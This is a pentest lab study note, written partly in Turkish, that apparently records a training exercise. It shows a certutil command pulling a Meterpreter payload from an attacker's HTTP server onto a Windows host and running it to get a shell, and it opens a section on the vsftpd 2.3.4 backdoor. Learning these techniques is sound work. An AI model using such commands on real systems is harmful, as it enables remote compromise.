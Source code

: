 ## 1. python3 -m httpSErver
![[Pasted image 20240229135739.png]]
#cerutil #cerutil-windows-transfer
### Tekrar sessions 'a geri donduk ve session'u açıp #cerutil  ile payload'ı çekeceğiz.
![[Pasted image 20240229135936.png]]
### certutil -urlcache -f http://10.0.2.4/meterpreter.exe meterpreter.exe
![[Pasted image 20240229140050.png]]

## Başarıyla çektik

### Multi handler rc komutla açıldı daha önce kaydetmiştik
![[Pasted image 20240229140149.png]]


### .\meterpreter.exe çalıştırıldı meterpreter shell geldi hayırlı olsun.
![[Pasted image 20240229140306.png]]

![[Pasted image 20240229140327.png]]
![[Pasted image 20240229140344.png]]







## Exploiting A Vulnerable FTP Server

#ftp #ftp-port21 
### FTP (File Transfer Protocol) is a protocol that uses TCP port 21 and is used to facilitate file sharing between a server and client/clients.

>[!info] + vsftpd is an FTP server for Unix-like systems including Linux systems and is
the default FTP server for #Ubuntu, #CentOS and #Fedora.  #vsftpd V2.3.4 is vulnerable to a command execution vulnerability that is facilitated by a malicious backdoor that was added to the vsftpd download archive through a supply chain attack.

---
### Durum şu nmap taraması yaptık. Bununla alakalı ftp versiyonuna baktık.
![[Pasted image 20240305112744.png]]
